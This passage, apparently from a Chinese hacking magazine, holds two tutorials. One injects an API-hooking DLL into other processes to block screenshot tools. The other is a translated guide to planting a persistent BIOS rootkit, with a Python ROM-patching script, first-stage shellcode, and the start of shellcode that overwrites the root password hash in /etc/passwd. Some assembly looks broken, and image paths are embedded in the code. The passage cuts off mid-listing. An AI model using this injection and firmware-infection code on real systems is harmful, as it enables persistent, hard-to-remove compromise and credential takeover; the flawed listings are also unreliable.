第三个因素要考虑的是，使用何种事件类型来激发安装特定钩子。在安装钩子时必须使用的函数 `SetWindowsHookEx(int, Hookproc, Hinstance, dword)` 中包含四个参数，第一个即确定触发事件的类型。像 WM_PAINT、WM_PRINT、WM_PRINTCLIENT 这些与创建位图和位图编辑相关的信息都应该在选择考虑的范围之中。

图1

第四点就是保证客户端能准确无误地把 DLL 文件插入于目标进程中，这个可以独立测试，比如如果我把一个 DLL 文件成功插入到了任务管理器中，当删除时会显示源代码正被调用。在理清了上述思路后就可以放手去干了。

首先我们来组建带有拦截 API 功能的 DLL 文件，从功能上讲可分为几个部分。首先是要提供 DLL 入口，并在其中定义 DLL 一旦被加载后需要采取的一系列动作。其代码如下：

```cpp
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    // 这里 DllMain 给出 DLL 入口地址
    switch(ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // DLL 被加载成功则执行如下指令
        InstallHook(TRUE, ::GetCurrentProcessId());
        break;
    case DLL_PROCESS_DETACH:
        // 卸载 DLL
        UnInstallHook();
        break;
    }
    hmodDll = (HMODULE)hModule;
    return TRUE;
}
```

这里的 DLL_PROCESS_ATTACH 是 DLL 加载成功时返回到 ul_reason_for_call 参数中的信息。另外可以在第一个花括号内就直接进行 Hook 而不需要另外放置 InstallHook 函数，但我这里为了使条理清晰而采取这样的做法。原始写法可以参照 Greg Hoglund 和 James Butler 所写的《ROOTKITS》一书。对于上述的 InstallHook 函数的参数要根据实际情况选择。

```cpp
void __declspec(dllexport) WINAPI InstallHook(BOOL IsHook, DWORD dwThreadId)
{
    if(IsHook)
    {
        hHook = SetWindowsHookEx(WM_PAINT, (HOOKPROC)GetMsgProc, hmodDll, dwThreadId);
        // 这里主要是确认使用哪种激发钩子安装的信息类型
        HookAllAPI("gdi32.dll", GetProcAddress(GetModuleHandle("gdi32.dll"), "CreateCompatibleBitmapW"),
                  (PROC)&H_CreateCompatibleBitmapW, NULL);
        // 这里比方确定拦截 CreateCompatibleBitmap 函数，并要知道其包含在 gdi32.dll 里
        HookAllAPI("gdi32.dll", GetProcAddress(GetModuleHandle("gdi32.dll"), "CreateCompatibleBitmapA"),
                  (PROC)&H_CreateCompatibleBitmapA, NULL);
    }
}
```

在上述代码中可以看到，当一个进程接收到一个绘图事件时，便激活钩子的安装，并随即加载包含了 GetMsgProc 函数的 hmodDll 所指的 DLL。其中 HookAllAPI 函数是查找所挂钩的进程应用的 DLL 模块，部分代码如下：

```cpp
BOOL WINAPI HookAllAPI(LPCWSTR pszCalleeModuleName,
                       PROC pfnOriginApiAddress,
                       PROC pfnDummyFuncAddress,
                       HMODULE hModCallerModule)
{
    if (pszCalleeModuleName == NULL)
        return FALSE;

    if (pfnOriginApiAddress == NULL)
        return FALSE;

    // 如果没成功传入要挂钩的模块名，枚举被挂钩进程中的所有引用模块，
    // 并对其传进来的相应函数名进行查找
    if (hModCallerModule == NULL)
    {
        // 因为一般挂钩模块名都能够成功传入，所以这里暂时不处理
    }
}
```

```c
else
{
    HookOneAPI(pszCalleeModuleName, pfnOriginApiAddress,
               pfnDummyFuncAddress, hModCallerModule);
    // 如果操作进来，进行查找，使用定义了的 HookOneAPI 函数
    return TRUE;
}
return FALSE;
```

这里根据是否成功传进分为两种不同情况，但一般能够成功传入，所以我们只关心成功传入情况下，调用的 HookOneAPI 函数对函数在导入地址表 IAT 中的地址位置进行的搜索以及改写。

```c
void WINAPI HookOneAPI(LPCTSTR pszCalleeModuleName,
    PROC pfnOriginApiAddress,
    PROC pfnDummyFuncAddress,
    HMODULE hModCallerModule)
{
    // 寻找我们想要的函数
    PIMAGE_THUNK_DATA pThunk =
      (PIMAGE_THUNK_DATA)((PBYTE)hModCallerModule + pImportDesc->FirstThunk); // IAT

    for (; pThunk->u1.Function; pThunk++) {
        // pfn 记录了与 IAT 关联函数的地址
        PROC *ppfn = (PROC *)&pThunk->u1.Function;
        if (*ppfn == pfnOriginApiAddress) {
            // 如果地址相同，进行改写
            WriteProcessMemory(GetCurrentProcess(), ppfn,
                &pfnDummyFuncAddress,
                sizeof(pfnDummyFuncAddress), NULL);
            return;
        }
    }
}
```

整个 API 挂载要实现的目的就是以上这几句了。当找到了导入地址表中相应函数的位置后，使用 WriteProcessMemory() 函数把 DLL 的名称及其包含的信息通通写进到目标进程中被分配的内存中，以实现对 API 函数地址重定位，指向我们自己创建的一些函数里。

当然这有个前提，就是客户端程序采用远程注入 DLL 时要事先履行好分配目标进程内存的义务。如果使用远程注入 DLL 的方式，则客户端一般是用 VirtualAllocEx() 函数来完成这项工作的。

上述工作完成以后，最后就是自定义我们自己的函数了，原来真正的 API 函数会指过来我们函数的地址。这就自由发挥了。

```c
HBITMAP WINAPI H_CreateCompatibleBitmapA(HDC hdc, int nWidth, int nHeight)
{
    WinExec("iexplorer.exe", SW_SHOWMAXIMIZED);
    return NULL; // 这里由于不确定 HBITMAP 返回值，暂以空指针代替
}
```

```c
HBITMAP WINAPI H_CreateCompatibleBitmapW(HDC hdc, int nWidth, int nHeight)
{
    WinExec("iexplorer.exe", SW_SHOWMAXIMIZED);
    return NULL;
}
```

但需要注意的一点是，API 函数有 ANSI 和 Unicode 两种形式，所以要对两种形式的自定义函数进行相同的定义，否则会出错或无法执行。所有工作都完成后就编译 C 文件并构建生成 DLL 即可。

至于客户端实现远程线程注入 DLL 的过程就相对简单很多了，主要使用了 OpenProcess()、VirtualAllocEx()、WriteProcessMemory()、CreateRemoteThread() 等若干函数。网上有很多使用 VC 和 VB 实现的例子，但对于“非工作部分”也应该轻装从简比较好，所以倾向于使用 VB 实现，因为相对来讲 VB 实现起来更加简单。

用 VB 实现的话，第一步肯定是要对所使用的一些 API 函数进行声明了，这在一个公用模块里进行。对于要使用什么函数，可以根据 API 挂载原理的过程按部就班地完成。首先当然不要忘记在进程空间中必须分配内存空间，要使用 VirtualAllocEx() 函数，同样在卸载 DLL 释放空间时要使用 VirtualFreeEx() 函数。声明代码在 MSDN 中可查，如：

```vb
Public Declare Function VirtualAllocEx Lib "kernel32" (...)
Public Declare Function VirtualFreeEx Lib "kernel32" (...)
```

同样的，对其他要使用到的 API 进行声明。具体而言要使用到 API 函数包括以下几个：

- OpenProcess（打开与关闭进程句柄）
- VirtualAllocEx（在目标进程中分配内存供 DLL 使用）
- VirtualFreeEx
- CreateRemoteThread（创建远程线程）
- GetProcAddress 与 GetModuleHandle（得到函数地址和 DLL 地址）
- WriteProcessMemory
- CreateToolhelp32Snapshot、Process32First 及 Process32Next（遍历进程）

把上述 API 都声明好，工作就完成一半了。随后建立一个窗体，可建立两个文本框，一个用来输入目标进程，另一个指定要加载的 DLL。当然可以在遍历进程的同时把 DLL 插入，但这样会导致 DLL 插入所有进程当中，不宜使用。根据 API 挂载的原理按顺序使用这些函数。核心代码如下：

```vb
Do
    If InStr(ProcessInfo.szExeFile, "text2.text") > 0 Then
        MyDllFileName = App.Path & "\" & IIf(LCase(Right(Text1, 4)) = ".dll", Text1, Text1.Text & ".dll")
    End If
Loop

MyDllFileLength = LenB(StrConv(MyDllFileName, vbFromUnicode)) + 1
' 第一步获取进程句柄
MyRemoteProcessId = OpenProcess(PROCESS_ALL_ACCESS, False, ProcessInfo.th32ProcessID)
If MyRemoteProcessId = 0 Then MsgBox "Open Process Error"

' 分配内存空间
MyDllFileBuffer = VirtualAllocEx(MyRemoteProcessId, 0, MyDllFileLength, MEM_COMMIT, PAGE_READWRITE)
If MyDllFileBuffer = 0 Then MsgBox "VirtualAllocEx Error"

' 写入 DLL 名称
MyReturn = WriteProcessMemory(MyRemoteProcessId, MyDllFileBuffer, ByVal(MyDllFileName), MyDllFileLength, 0)
If MyReturn = 0 Then MsgBox "WriteProcessMemory Error"

' 获取 LoadLibraryA 地址
MyAddr = GetProcAddress(GetModuleHandle("Kernel32"), "LoadLibraryA")
If MyAddr = 0 Then MsgBox "GetProcAddress Error"

' 创建远程线程
MyResult = CreateRemoteThread(MyRemoteProcessId, 0, 0, MyAddr, MyDllFileBuffer, 0, 0)
If MyResult = 0 Then MsgBox "Error CreateRemoteThread"
CloseHandle MyResult
CloseHandle MyRemoteProcessId









```

以上是遍历进程的部分，大部分操作都在此进行。再补充其他定义、函数调用等，编译并生成 EXE，整个客户端部分就算完成了，如图 2 所示。
图 2

利用它把前面所述的 DLL 插入到意欲进行反击的截图工具，就可以实现防止截图。这里声明一点，每种工具可能使用的截图 API 函数都不一样，如有的结合使用 CreateCompatibleDC，而一些应用程序则绕过 WM_PAINT 消息，使用 GetDC 函数来截获，所以一定要具体分析来加以使用。当然，有兴趣的朋友完全可以编写一个特征库或结构，把通常可使用的函数当作特征码一样收集起来，就可以使该软件通用。

- 前置知识：硬件基础、汇编
- 关键词：编程、Rootkit、BIOS

##### 论 BIOS 感染的持久化之道
文/aLS & Alfredo 译/Fahrenheit

在过去的几年中，有关此主题的讨论和文章都不少。然而，除了所谓的会将主板 BIOS 清零的 CIH 病毒，以及 Pinczakko 的一些逆向尝试之外，我们再也没有见过其他的恶意 BIOS 感染实例，更不用说其他对其工作原理深入的研究和实现细节了。大多数人都认为这是一项老得不能再老的技术，早已被研究得滚瓜烂熟，有时还会误把它们和 MBR 病毒搅和在一起。但是，我们在本文中将致力于改变这种看法：只需要恰当的 OS 内核检测和感染技术，攻击者就可以在系统的 BIOS 固件里植入一个“可信而持久”的硬件 Rootkit。

本文将向大家介绍一个向 BIOS 固件注入恶意代码的通用方法，当然前提是 BIOS 没有数字签名（Digital Signed）功能的支持。

一旦成功注入 BIOS 固件以后，我们的嵌入式代码就可以在操作系统加载之前运行，抢占获取特权的先机。我们还将向大家展示一些如何完全控制系统硬件驱动器的技术，有了它，才是 Rootkit 在系统中保持持久化的终极之道。

本文的主要目的是向大家展示一些 BIOS 固件篡改方面的技术，可以用它们来作为一种保持入侵持久化的有效方法。所以，首先介绍一部分 BIOS 固件相关的知识，然后再开始我们的入侵代码的实例研究过程。全文分为两个主要部分：修改 VMWare 的 Phoenix BIOS 和修改真实的 Award BIOS。

精彩的攻击代码示例在等着大家。

###### BIOS 基础

####### 1）BIOS 简介

> 以下摘自 Wikipedia：“BIOS 是系统的启动固件，设计用于在 PC 启动时运行开机的第一段代码。BIOS 的初始化函数将执行识别检测、初始化如视频卡、硬盘和软盘等在内的系统设备操作，为系统进入可工作状态做好准备，该过程通常被称为引导式启动（bootstrapping）阶段。BIOS 提供了一组基本的、用来控制键盘和字符显示等功能的输入/输出函数。在早期的 IBM PC 和 AT 结构下，某些外围设备，如硬盘控制器和视频接口卡等都带有自己的 BIOS 扩展 ROM，相对主板 BIOS 又增加了许多额外的独立功能。”

######## ① BIOS 硬件

早在 20 世纪 80 年代，那时的 BIOS 中包含了一个 ROM 或者 PROM 芯片，它们都是不可修改的。而现在的固件通常都存储在一片 EEPROM（Electrically Erasable Programmable Read-Only Memory，电可擦可编程只读存储器）里，该类型的存储器允许用户重刷固件，使用由开发商提供的更新程序或者漏洞补丁增加与完善 BIOS 的原有功能。

######## ② 工作原理

BIOS 在计算机系统中占有举足轻重的地位，正是考虑到要保证在万无一失的情况下，系统开机后 CPU 执行的第一段代码总能够成功运行，所以才将固件放置在不可修改的 ROM 芯片里。

BIOS 里的第一个模块被称为“启动块（Bootblock）”，负责系统的 POST（Power-on self-test，开机自检）和紧急启动过程。POST 对现在的 PC 来说已经再普通不过，路由和打印机的预启动功能也逐步加入到其中。这些过程需要检测和初始化系统内部几乎所有的硬件部件，并确保其处于一个正常的工作状态。

现代的 BIOS 设计都采用了模块化的结构，意味着 BIOS 将多个模块集成于固件一身。各模块明确分工，从系统初始化到安全管理，负责 BIOS 启动的各个阶段。而且大多模块都以压缩的形式存储，因此在执行前需要一个解压缩例程将其解压，验证无误后就可以开始工作了。模块解压之后，才轮到其他诸如 PCI ROMs 等硬件的初始化进程，它从硬盘 MBR 的第 0 扇区读取启动加载程序（boot loader），随后加载操作系统运行。

####### 2）固件文件结构

如前所述，BIOS 固件采用的是模块化的结构，存储在特殊的二进制文件中时，包含了一些压缩的 LZH 模块，每个模块又包含了一个 8 位的校验值。然而，并非所有的模块都是以压缩形式存储的，其中的一些，比如启动块和解压缩例程，涉及系统启动的基本过程以及解压其他模块的基本任务，当然就不能以压缩的形式存在了。图 1 是一个开源程序 Phnxdeco（在 Debian 系统中附带）分析 Phoenix 的 BIOS 固件 ROM 得到的转换数据。
图 1 Phoenix BIOS 的 Phnxdeco 分析结果

我们可以看到固件中的各个不同模块，其中有些是未压缩的，就有前面提到的启动块和解压例程。

####### 3）刷新过程

BIOS 中的软件和其他软件并没有多大的区别，也难免会有发现 Bug、版本升级等情况的发生。新版本的 BIOS 程序可能会添加对新硬件功能的支持，修整原有的 Bug，以及改善原来的功能。然而，重刷 BIOS 却是一件十分危险的事情。作为计算机系统的最基本组件，重刷 BIOS 要引起我们的高度重视和关注，刷新失败可能会把整个机器变成废铁一堆。

正是因为如此，我们才需要一个测试与试验的平台。VMWare 作为感染 BIOS 研究迈出的第一步，为我们提供了一个极好的研究样本。然而即便如此，在 VMWare 和真实的 BIOS 之间仍存在着诸多差异，下面我们就从 VMWare 开始这激动人心的旅程吧。

###### 感染 BIOS

####### 1）初始安装过程

VMWare 及真实环境下的 BIOS 安装过程并不在本文的所讲述范围之内，因此，我们假定读者已经自行完成了两者及相关软件的安装和设置过程。

####### 2）修改 VMWare 的 Phoenix BIOS

在展开具体的工作进程之前，首先需要求得一份 VMWare 的 BIOS 固件程序。通常为了读取保存在 EEPROM 中的 BIOS 代码，我们需要借助内核函数的帮助，通过南桥芯片，直接向 I/O 端口发送或者读取数据。除此之外，还要参考由开发商提供的技术文档，了解当前 BIOS 中数据和代码的编码组织形式，而且只有借助他们提供的 BIOS 更新工具，我们才可以将其备份或者转储出来。

然而在 VMWare 里，我们却不能使用这些工具，因为模拟出来的硬件并没有完全具备真实硬件的所有功能。那么只能转而求其次，诉诸其他的办法了。为什么我们不从内部更新一下 VMWare 的 BIOS 试试看呢？

######## ① 转储 VMWare BIOS

在开始之前需要说明一点，获得 VMWare 提供的嵌入式 GDB 服务器的支持是很有必要的，这使得我们调试和理解其内部的具体工作细节都变得简单了许多。我们使用一些随机的字节数组作为匹配模式，在内存中搜寻 BIOS 代码的具体痕迹。在 VMWare 的主执行文件 vmware-vmx 中找到了一个大小为 256KB 的组件，名为“bios440”。它在我们当前版本的 VMWare 中位于文件偏移 0x6276c7-0x65B994 的地方，包含了完整的 BIOS 固件，可以使用 objdump 将其转储出来，或者也可以使用 objcopy 将其转储为一个独立的文件形式：

```bash
objdump -h vmware-vmx
objcopy -j bios440 -O binary --set-section-flags .bios440=a vmware-vmx bios440.rom.z
```

此时在目标系统上如果具有了 Root 权限，就可以随心所欲地修改 vmware-vmx，在其中插入感染代码了。每一次当系统中的任意一台 VMWare 启动时，恶意代码都将会被执行，这听起来真的棒极了。

######## ② 配置 VMWare BIOS

VMWare 有一种很特殊的方式，直接通过 VMX 配置文件的设置来加载用户自行提供的 BIOS 固件程序。其中有一个名为“bios440.filename”的标签，我们在这里避免使用 VMWare 的内建 BIOS，转而由我们自己指定 BIOS 文件的路径，可以在 VMX 文件中加入下面的一行语句：“bios440.filename = "path/to/file/bios.rom"”。现在，BIOS 文件已经配置好了，顺便带上下面的组合：

```text
debugStub.listen.guest32 = "TRUE" or
debugStub.listen.guest64 = "TRUE"
```

这是在 8832 端口上留下一个 VMWare gdb 的调试残桩，允许我们在必要的时刻调试 VM 的运行。还可以接着定义下面的一些隐含选项标签：

```text
bios.bootDelay = "3000"   # To delay the boot X milliseconds
debugStub.hideBreakpoints = "TRUE"
# Allows gdb breakpoints to work
debugStub.listen.guest32.remote = "TRUE"
# For debugging from another machine (32bit)
debugStub.listen.guest64.remote = "TRUE"
# For debugging from another machine (64bit)
monitor.debugOnStartGuest32 = "TRUE"
# This will halt the VM at the very first instruction at 0xFFFF0



```

######## ③ 解压缩固件程序

如前所述，有一些模块是以压缩的 LZH 格式存储的，恰好也有那么一些工具，可以帮助我们从固件中提取和解压缩一个单独的模块代码。目前在 Phoenix 和 Award 开发群体中比较流行的编辑工具就要数 phnxdeco 和 awardeco 了，它们都是 Linux 下的 GPL 软件，Windows 下对应的则是 Phoenix BIOS Editor 和 Award BIOS Editor。

我们在 Linux 下使用 Wine 运行 Phoenix BIOS Editor，将抽取得到的模块保存在 /tmp 目录下，等待反汇编程序的加载。Phoenix BIOS Editor 有一个最大的优点，就是它还可以重建 BIOS 的整个固件文件，将不同的解压缩模块重新压缩整合在一起，构建成像刚开始一样的一个 BIOS 固件文件。然而，它也有其不足之处，在更新旧版本的 BIOS 时不会自动计算校验值，需要我们手工完成，这将于下面再做详细介绍。

解压缩和重建过程中的某些步骤需要用独立的工具来完成，可以直接通过命令行的方式来运行。为方便起见，我们将其组织成脚本的形式，大大提升了这些工具的易用性。

######## ④ 修改

解压完所有的模块，就可以开始着手进行修改了，随后我们再把它们重建成可更新的 BIOS 固件文件。首先需要解决“在哪里 patch”的问题，我们可以在任何可能执行恶意代码的地方都放上一个钩子，观察输出情况决定最终的 patch 位置。

首先，我们考虑挂钩 CPU 执行的第一条指令——0xF000:FFF0 处的一个跳转语句，如图 2 所示的 BIOS 内存布局。这看起来是最好的选择，因为它总位于一个固定的位置，定位起来非常容易。然而，此时却需要考虑特殊的上下文情况，要让我们的代码能够运行起来，也就意味着我们得自己完成所有硬件，如 DRAM、Northbridge、Cache 和 PCI 等的初始化操作，工作量相当巨大。
图 2 系统 BIOS 内存布局

正因为如此，我们最终还是选择挂钩 BIOS 的解压解压例程，在任意版本的固件程序中它都是一成不变的。而且它还是以未压缩的形式存储的，根据匹配模式定位其位置并不算困难，在 BIOS 的启动过程中将被多次调用，使得我们有足够的时间和机会来确定感染需要的服务是否已经全部就位。

下面是我们编写的一个脚本文件，可以快速地完成模块抽取、汇编感染载荷、BIOS 注入，以及重新构建固件文件等多项任务。其中的 PREPARE.EXE 和 CATENATE.EXE 程序是 Phoenix BIOS Editor 编辑包中提供的 Phoenix BIOS 固件构建程序。

图 3  ShellCode 运行示意图

```python
#!/usr/bin/python
import os,struct
# -------- Decomp processing --------
# assemble the whole code to inject
os.system('nasm ./decomphook.asm')
decomphook = open('decomphook','rb').read()
print "[+]ejo hook: %d bytes" % len(decomphook)
minihook='\x9a\x40\x04\x3b\x66\x90' # call near +0x430
# Load the decompression rom
decorom = open('DECOMPCO.ROM.orig','rb').read()
# Add the hook
hookoffset=0x23
decorom=decorom[:hookoffset]+minihook+decorom[len(minihook)+hookoffset:]
# Add the shellcode
decorom+='\x90'*100+decomphook
decorom=decorom+'\x90'*10
# recalculate the ROM size
decorom=decorom[:0xf]+struct.pack('<H',len(decorom)-0x1A)+decorom[0x11:]
# Save the patched decompression rom
out=open('DECOMPCO.ROM','wb')
out.write(decorom)
out.close()
# Compile
print "Prepare..."
os.system('./PREPARE.EXE ./ROM.SCR.ORIG')
print "Catenate..."
os.system('./CATENATE.EXE ./ROM.SCR.ORIG')
```

```asm
BITS 16
;Extend to search (in 64K sectors, aprox 32 MB)
%define EXTENT 10
start_mover:
;保存寄存器值
jmp start_mover
pusha
pushf
;设置目标地址以移动 Shellcode
xor ax, ax
xor di, di
xor si, si
push cs
pop ds
mov es, ax ; seg_dst
mov di, 0x8000 ; off_dst
mov cx, 0xff ; code_size
;获取 eip 的值，已取得源地址
call b
b:
pop si
add si, 0x25 ; (Offset needed to reach the second stage payload)
rep movsw
mov ax, word [esp+0x12] ; get the caller address to patch the original hook
sub ax, 4
mov word [eax], 0x8000 ; new_hook offset
mov word [eax+2], 0x0000 ; new_hook segment
;恢复保存的寄存器
popf
popa
; execute code smashed by 'call far'
mov es,ax
mov bx,es
mov fs,bx
mov ds,ax
retf
; 随后是一片 nop 指令，以及第二阶段的代码
```

######## ⑤ 载荷

在设计载荷之前，我们还要解决“在哪里保存载荷”的问题，这可不是一件容易的事情。通过观察发现，在解压例程的尾部，有一些起填充作用的存储空间，作为在解压时暂时保存被解压出来的压缩代码的缓冲区。我们的感染代码也可以保存在这里，不过这间接增加了感染过程的复杂程度，我们不得不将 Shellcode 分为以下两个阶段。

第一阶段的代码挂钩在解压例程的首部，先于其执行，将控制流重定向到我们的代码，并将第二阶段的代码移动到一片安全、在整个启动过程中仍未被使用过的硬编码区域。然后，它将更新钩子设置，让其指向一个新的执行地址，并执行 BIOS 中原来的解压例程。图 3 是 Shellcode 的运行示意图，后面还有第一阶段的程序代码（详细参见附件中的 vmware\decomphook-win.asm 和 vmware\decomphook-openbsd.asm 文件）。

第二阶段的代码驻留在一片未使用过的存储空间中，等待所有基础服务就位以后，接收特定的运行信号就可以开始工作了。

第二阶段的代码在 VMWare 中运行之前，IVT（Interrupt Vector Table，中断向量表）已经初始化完成，我们需要的服务都已经各就各位。因此，我们也就选择 IVT 的初始化过程作为感染程序的工作准备信号。信号的检测过程十分简单，只要将地址映射到 0000:0000 就可以了，ShellCode 在执行前检测 IVT 是否已正确初始化，如果是则继续执行，否则什么也不做。

所有服务准备就绪，而且我们的代码也已经运行起来了，那接下来要干什么呢？在这里我们可以和 OS 交互了。此时的操作系统还仅仅是磁盘上的一个巨大的字符数组，但是我们可以通过 int 13h——低级磁盘服务中断去修改操作系统中的数据了。呵呵，难道不是吗？

在实现一段真实恶意代码的过程中，需要考虑一个基本的磁盘驱动程序，以支持不同种类的文件系统，至少也要能读取 FAT 和 NTFS 吧。但是我们还尚且停留在概念研究的阶段，所以暂时省去了这一步骤，只用 BIOS 的 int 13h 中断读取原始的磁盘文件数据。我们的方法看似愚笨，但是仍然可以随攻击者的意愿，在磁盘文件中添加和删除驱动模块、感染文件，以及关闭反病毒、反 Rootkit 软件等等。

下面的代码来自“\vmware\passwd.asm”，是用来在整个磁盘上遍历搜索“root:$”模式的 ShellCode。找到 /etc/passwd 文件的根口令入口之后，我们将用自己的 hash 码替换原来根口令的 hash 码，更改“root”用户的密码设置。

```asm
; 本 shellcode 未作任何优化，为“教学”目的尽量保持简单化，为 16 位 Shellcode，使用 LBA 磁盘访问来修改 root 用户的根口令
BITS 16
push es
push ds
pushad
pushf
; Get code address
call gca
gca:
  pop bx
; construct DAP
push cs
pop ds
mov si,bx
